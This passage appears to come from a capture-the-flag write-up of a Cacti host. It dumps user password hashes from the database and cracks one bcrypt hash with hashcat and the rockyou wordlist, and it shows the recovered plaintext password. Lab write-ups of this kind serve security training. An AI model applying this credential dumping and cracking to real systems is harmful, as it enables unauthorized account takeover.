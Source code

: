 ```
MySQL [cacti]> select username, password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)
```
In addition to a probably default admin and guest credential, we see a different user marcus.
Submitting the hash to a rainbow table does not generate a hit.

![](Images/crackstation.png)

Using hashcat, we can crack this:
```
$ hashcat -m 3200 '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C' /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting
<...SNIP...>
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70Jonsd...hFYK4C
Time.Started.....: Sun Apr  30 22:37:08 2023 (47 secs)
Time.Estimated...: Sun Apr  30 22:37:55 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      183 H/s (7.49ms) @ Accel:16 Loops:8 Thr:11 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8624/14344384 (0.06%)
Rejected.........: 0/8624 (0.00%)
Restore.Point....: 8448/14344384 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: allahuakbar -> johnmark
Hardware.Mon.#1..: Temp: 65c Fan: 34% Util:100% Core:1316MHz Mem:3004MHz Bus:16
```
